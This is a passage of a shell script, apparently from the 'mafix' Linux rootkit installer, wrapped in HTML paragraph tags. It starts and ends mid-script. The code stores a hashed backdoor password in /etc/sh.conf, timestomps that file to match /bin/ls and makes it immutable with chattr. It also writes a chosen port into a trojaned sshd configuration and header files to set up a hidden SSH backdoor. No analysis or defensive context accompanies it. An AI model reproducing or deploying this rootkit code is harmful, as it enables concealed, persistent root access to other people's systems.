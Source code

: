 <p>&nbsp; &nbsp;echo &quot;${CYN}mafix!${DMAG} &gt; ${CYN} Password:${DMAG} $DEFPASS${RES}&quot;</p><p>&nbsp; &nbsp;echo -n $DEFPASS|md5sum &gt; /etc/sh.conf</p><p>fi</p><p>&nbsp;</p><p>touch -acmr /bin/ls /etc/sh.conf</p><p>chown -f root:root /etc/sh.conf</p><p>chattr +isa /etc/sh.conf &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;#写保护</p><p>&nbsp;</p><p>if test -n &quot;$2&quot; ; then</p><p>&nbsp; &nbsp;echo &quot;${CYN}mafix!${DMAG} &gt; ${CYN} Port:${DMAG} $2${RES}&quot;</p><p>&nbsp; &nbsp;echo &quot;Port $2&quot; &gt;&gt; $BASEDIR/bin/.sh/sshd_config</p><p>&nbsp; &nbsp;echo &quot;3 $2&quot; &gt;&gt; $BASEDIR/bin/headers/hosts.h</p><p>&nbsp; &nbsp;echo &quot;4 $2&quot; &gt;&gt; $BASEDIR/bin/headers/hosts.h</p><p>&nbsp; &nbsp;cat $BASEDIR/bin/.sh/shdcf2 &gt;&gt; $BASEDIR/bin/.sh/sshd_config ; rm -rf $BASEDIR/bin/.sh/shdcf2</p><p>&nbsp; &nbsp;mv $BASEDIR/bin/.sh/sshd_config $BASEDIR/bin/.sh/shdcf 2&gt;/dev/null</p><p>else</p><p>&nbsp; &nbsp;echo &quot;${CYN}mafix!${DMAG} &gt; ${CYN} Password:${DMAG} $DEFPORT${RES}&quot;</p><p>&nbsp; &nbsp;echo &quot;Port $DEFPORT&quot; &gt;&gt; $BASEDIR/bin/.sh/sshd_config</p><p>&nbsp;&nbsp;</p><p>&nbsp; &nbsp;echo &quot;3 $2&quot; &gt;&gt; $BASEDIR/bin/headers/hosts.h</p><p>&nbsp; &nbsp;echo &quot;4 $2&quot; &gt;&gt; $BASEDIR/bin/headers/hosts.h</p><p>&nbsp; &nbsp;cat $BASEDIR/bin/.sh/shdcf2 &gt;&gt; $BASEDIR/bin/.sh/sshd_config ; rm -rf $B